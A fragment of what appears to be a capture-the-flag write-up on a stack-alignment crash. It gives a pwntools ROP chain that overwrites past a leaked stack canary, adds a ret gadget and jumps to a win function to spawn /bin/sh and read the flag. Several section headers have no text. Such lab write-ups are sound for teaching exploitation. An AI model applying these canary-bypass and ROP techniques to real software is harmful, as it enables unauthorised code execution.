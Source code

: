 

## Part 3 : A stack alignement story
### Why does the program even crashes ?






### How to fix it with Return Oriented Programming 


The previous payload section can be replaced by the following code:
```py  
rop = ROP(elf)

rop.raw('A' * offset)
rop.raw(canary)
rop.raw(0x8)
rop.raw(rop.ret)
rop.raw(win_addr)

print(rop.dump())
p.sendline(rop.chain())
p.recvall()
p.interactive()
```

By running the script, `/bin/sh` is this time executed with success, and the flag can be obtained by a simple `cat flag.txt`

## Resources
Here is a (not so) concise list of the resources for this challenge.
